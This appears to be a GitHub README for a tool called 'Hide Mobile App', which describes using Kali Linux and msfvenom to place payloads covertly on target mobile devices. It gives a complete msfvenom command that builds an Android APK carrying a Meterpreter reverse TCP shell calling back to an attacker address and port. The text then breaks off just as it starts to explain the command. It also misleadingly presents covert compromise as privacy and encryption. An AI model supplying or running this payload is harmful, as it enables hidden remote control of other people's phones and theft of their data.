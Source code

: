 # Hide-Mobile-App
"Hide Mobile App" maximizes Kali Linux and msfvenom capabilities to deploy custom payloads covertly onto target mobile devices. Seamlessly integrated into the Kali environment, it ensures the utmost privacy by encrypting sensitive data. Effortlessly secure your information with "Hide Mobile App" on Kali Linux.

## Table of Content

1. [Generate Apk File](#generate-apk-file)

## Generate Apk File
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9999 R > ./mobileApp.apk`
This command utilizes `msfvenom`, a Metasploit payload generator, to create a custom Android application (`.apk` file) embedded with a Meterpreter reverse TCP payload.
Breaking down the command:



